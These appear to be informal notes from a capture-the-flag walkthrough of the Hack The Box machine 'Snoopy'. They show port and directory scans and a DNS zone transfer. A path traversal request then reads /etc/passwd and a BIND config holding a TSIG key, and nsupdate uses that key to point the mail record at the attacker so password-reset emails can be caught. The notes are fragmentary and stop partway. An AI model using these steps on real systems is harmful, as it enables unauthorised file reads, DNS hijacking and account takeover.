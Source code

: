 sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.150.83 -oG allPorts

https://hyperbeast.es/snoopy-htb/

nmap 10.10.11.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 02:29 EDT
Nmap scan report for 10.10.11.212
Host is up (0.80s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 69.73 seconds
                                                    
Attention: As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.

Error: Unable to load the "PHP Email Form" Library!

so php 




```
gobuster dir --url http://snoopy.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

/index.html           (Status: 200) [Size: 23418]
/about.html           (Status: 200) [Size: 16614]
/contact.html         (Status: 200) [Size: 10248]
/download             (Status: 200) [Size: 11363570]
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]
/team.html            (Status: 200) [Size: 11115]

/download             (Status: 200) [Size: 11363570]
Progress: 232 / 441122 (0.05%)[ERROR] 2023/07/14 04:58:09 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]




nmap -p22,53,80 -sCV 10.129.150.83 -oN targeted

We enumerate the DNS by performing a zone transfer to discover possible subdomains.

so DNS enumeration is required

https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/

dig command syntaxt snoopy.htb @<snoopy actual ip>
dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 276 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Fri Jul 14 07:21:55 EDT 2023
;; XFR size: 11 records (messages 1, bytes 325)


but when we try t capture the request of downloading the package we find

GGET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

also there is an lfi vulnerability

GET /download?file=....//....//....//....//etc/passwd HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


we know lfi wxists tso the way to get ot the configuration key is by looking into /etc/bind/named.conf

```
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the 
// structure of BIND configuration files in Debian, *BEFORE* you customize 
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

exploit mail dns

 nsupdate                  
> server 10.10.11.212 53
> key hmac-sha256:rndc-key BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
> zone snoopy.htb
> update add mail.snoopy.htb 86400 A 10.10.16.47
> send

starting python smtpd server

python3 -m smtpd -c DebuggingServer -n 10.10.16.47:25

we added mm.snoopy.htb

a matter most page opens

![](20230715060719.png)

then we go and reset our password

we reset password for at password reset page

cschultz@snoopy.htb

but not able to

![](20230715060913.png)

nothing came maybe because we did not transfer the zone properly before


```
gobuster dns -d snoopy.htb -w /usr/share/spiderfoot/spiderfoot/dicts/subdomains-10000.txt -r 10.129.188.75 -i
```

we do a dns mitm


